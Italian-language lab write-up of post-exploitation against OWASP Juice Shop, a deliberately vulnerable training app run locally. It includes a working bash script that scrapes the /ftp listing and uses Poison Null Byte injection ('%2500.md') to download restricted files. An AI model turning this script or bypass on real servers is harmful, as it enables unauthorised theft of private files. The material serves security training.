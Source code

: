 ```yaml
---
title: "Juice Shop Post Exploitation"
author: ""
date: "2025-07-06"
toc: true
toc-depth: 2
---
```


# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del procedimento
![Data exfiltration dei dati in FTP](../immagini/post-exploitation/FTP_DE.png)

